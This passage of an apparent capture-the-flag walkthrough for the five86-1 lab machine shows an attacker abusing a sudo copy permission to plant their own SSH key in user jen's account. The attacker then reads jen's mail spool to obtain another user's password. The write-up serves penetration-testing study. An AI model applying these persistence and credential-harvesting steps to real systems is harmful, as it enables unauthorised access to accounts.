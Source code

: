 Let's add our own SSH public key to the authorized_keys in jen's home:

~~~
$ echo "ssh-rsa AAAAB3NzaC1yc2[***REDACTED***]T6xDO+m7pk= kali@kali" > /tmp/authorized_keys
$ sudo -u jen /bin/cp /tmp/authorized_keys /home/jen/.ssh/
~~~

We can now connect as `jen`:

~~~
kali@kali:/data/five86_1/files$ ssh jen@five86.box 
Linux five86-1 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
jen@five86-1:~$ id
uid=1003(jen) gid=1003(jen) groups=1003(jen)
~~~

## jen -> moss

Checking for files owned by `jen` reveals that there are emails:

~~~
jen@five86-1:~$ find / -type f -user jen 2>/dev/null
/var/mail/jen

[REDACTED]

~~~

Dumping the emails will reveal Moss' password:

~~~
jen@five86-1:~$ cat /var/mail/jen
From roy@five86-1 Wed Jan 01 03:17:00 2020
Return-path: <roy@five86-1>
Envelope-to: jen@five86-1
Delivery-date: Wed, 01 Jan 2020 03:17:00 -0500
Received: from roy by five86-1 with local (Exim 4.92)
	(envelope-from <roy@five86-1>)
	id 1imZBc-0001FU-El
	for jen@five86-1; Wed, 01 Jan 2020 03:17:00 -0500
To: jen@five86-1
Subject: Monday Moss
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1imZBc-0001FU-El@five86-1>
From: Roy Trenneman <roy@five86-1>
Date: Wed, 01 Jan 2020 03:17:00 -0500

Hi Jen,

As you know, I'll be on the "customer service" course on Monday due to that incident on Level 4 with the accounts people.

But anyway, I had to change Moss's password earlier today, so when Moss is back on Monday morning, can you let him know that his password is now Fire!Fire!

Moss will understand (ha ha ha ha).

~~~